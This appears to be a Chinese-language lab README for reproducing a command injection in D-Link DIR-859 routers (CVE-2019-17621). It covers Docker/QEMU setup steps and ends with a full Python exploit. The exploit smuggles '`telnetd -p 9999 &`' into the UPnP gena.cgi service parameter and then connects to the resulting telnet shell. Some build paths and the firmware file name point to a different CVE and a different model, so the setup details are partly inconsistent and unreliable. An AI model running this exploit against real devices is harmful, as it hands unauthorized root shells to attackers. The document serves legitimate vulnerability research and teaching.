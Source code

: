 # D-Link DIR-859 命令注入漏洞（CVE-2019-17621）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- htdocs/cgibin（有漏洞的服务程序）：192.168.2.2:49152

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:mips

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/mips && docker build -t firmianay/qemu-system:mips . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR822A1_FW103WWb03.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-mips CVE-2019-20760/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/mips-gdbserver-7.11.1 CVE-2019-20760/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-firmadyne.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-firmadyne.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.0.1/

# 漏洞利用
$ python3 tools/exp.py
```

使用 nmap 扫描可以发现 `9999` 端口被开启，运行 telnet 服务：

```
root@4fd552722f7a:~# nmap 192.168.0.1
PORT      STATE SERVICE
80/tcp    open  http
443/tcp   open  https
9999/tcp  open  abyss
49152/tcp open  unknown
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import socket
import os
from time import sleep

def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request  = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    print('[*] Sending Payload')
    sleep(1)

    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    results = con.recv(4096)
    print('[*] Running Telnetd Service')
    sleep(2)

    print('[*] Opening Telnet Connection\n')
    os.system('telnet ' + str(server) + ' 9999')

serverInput = "192.168.0.1"
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

## 参考链接

- https://mp.weixin.qq.com/s/TzFepaBpYnMbZ8Mep4IXwA
- https://mp.weixin.qq.com/s/QLRxTfurYTPX3NNR3nZOMg
